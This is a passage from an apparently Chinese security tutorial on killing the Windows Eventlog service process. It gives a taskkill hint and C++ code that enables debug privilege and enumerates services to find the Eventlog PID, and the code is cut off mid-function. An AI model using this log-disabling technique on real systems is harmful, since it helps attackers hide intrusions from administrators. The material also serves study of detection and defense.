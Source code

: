 ```

int main(int argc, char *argv[])
{
	DWORD pid = getpid();
	return 0;
}
```

## 0x04 提权关闭Eventlog进程
---

### 1、通过powershell实现

执行cmd命令taskkill即可

### 2、通过c++实现

c++的代码需要提升权限才能结束进程svchost.exe

```
#include <windows.h>

#pragma comment(lib,"Advapi32.lib") 

BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;

	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
	return(fOk);
}

DWORD  getpid()
{
	DWORD PID = 0;
	SC_HANDLE scHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ENUMERATE_SERVICE);
	if (scHandle == NULL)
	{
		printf("[!]OpenSCManager fail(%ld)", GetLastError());
	}
	else
	{
		SC_ENUM_TYPE infoLevel = SC_ENUM_PROCESS_INFO;
		DWORD dwServiceType = SERVICE_WIN32;
		DWORD dwServiceState = SERVICE_STATE_ALL;
		LPBYTE lpServices = NULL;
		DWORD cbBufSize = 0;
		DWORD pcbBytesNeeded;
		DWORD servicesReturned;
		LPDWORD lpResumeHandle = NULL;
		LPCSTR pszGroupName = NULL;
		BOOL ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
```